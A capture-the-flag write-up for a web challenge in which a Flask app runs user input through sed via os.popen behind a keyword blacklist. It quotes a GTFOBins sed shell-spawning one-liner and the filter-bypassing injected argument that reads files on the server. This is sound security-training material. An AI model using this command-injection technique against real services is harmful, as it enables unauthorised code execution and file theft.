

# SaaS

|Author|Points|Category|Solves|
|---|---|---|---|
|Eth007|100|Web|307|

### Description

```
Welcome to Sed as a Service! Now you can filter lorem ipsum to your heart's desire!	
```

### Attachments

```
https://imaginaryctf.org/r/C279-app.py
http://saas.chal.imaginaryctf.org
```




```python
@app.route('/backend')
def backend():
    for word in blacklist:
        if word in request.args['query']:
            return "Stop hacking.\n"
    return html.escape(os.popen(f"sed {request.args['query']} stuff.txt").read())
```

We can see in the app.py that the website is just running sed on our input but filters it with a blacklist:

```py
blacklist = ["flag", "cat", "|", "&", ";", "`", "$"]
```
So I had a look at [GTFOBins](https://gtfobins.github.io/gtfobins/sed/) where I found:

```
sed -n '1e exec sh 1>&0' /etc/hosts
```

So -n '1e cat flag.txt' should throw the flag. However flag and cat are blacklisted so just use head on all the files:

```
-n '1e head -c 100 *' 
```


There is our flag:
```
ictf{:roocu:roocu:roocu:roocu:roocu:roocursion:rsion:rsion:rsion:rsion:rsion:_473fc2d1}
```